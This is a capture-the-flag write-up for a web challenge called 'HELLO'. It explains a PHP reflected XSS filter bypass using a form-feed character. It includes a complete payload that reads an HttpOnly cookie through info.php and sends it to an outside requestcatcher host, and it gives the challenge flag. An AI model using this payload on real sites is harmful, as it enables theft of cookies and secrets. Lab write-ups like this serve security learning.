 # HELLO (Web Exploitation)

### Challenge Description:

This challenge involves exploiting a web application with a vulnerable PHP script and a Node.js bot that sets an HttpOnly cookie. The goal is to exfiltrate the flag from this cookie by exploiting the XSS vulnerability.

### Challenge Code Analysis:

```php
<?php
function Enhanced_Trim($inp) {
  $trimmed = array("\r", "\n", "\t", "/", " ");
  return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name'])) {
  $name = substr($_GET['name'], 0, 23);
  echo "Hello, ".Enhanced_Trim($_GET['name']);
}
?>
```

Takes a name parameter, applies the Enhanced_Trim function to it, and then outputs it.

bot.js:
It sets an HttpOnly cookie named FLAG and navigates to a target URL to trigger the XSS payload.

### Approach:

- The `index.php` script allows input via the `name` parameter, which is passed through `Enhanced_Trim`. This function does not strip out all characters, allowing us to inject HTML and JavaScript payloads.

- We need to bypass the restriction on whitespace characters. By using the form feed character (%0c), we can construct a payload that executes JavaScript.

```
<svg%0conload=alert(123)>
```

- Using `info.php`, cookies can be displayed and accessed via a path traversal bypass `/info.php/index.php`.

### Payload:

```
<svg%0conload=fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + window.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7) + "mishajain123.requestcatcher.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}})})})>
```

- `window.location.href.substring(0, 7)` : Gives `http://`.
- `window.location.href.substring(5, 6)` : Gives `/`
- `.forEach(function(line){if(line.indexOf("FLAG")!=-1){...}})` : If FLAG in text, performs another fetch request to send text to requestcatcher.

### Flag:
`idek{Ghazy_N3gm_Elbalad}`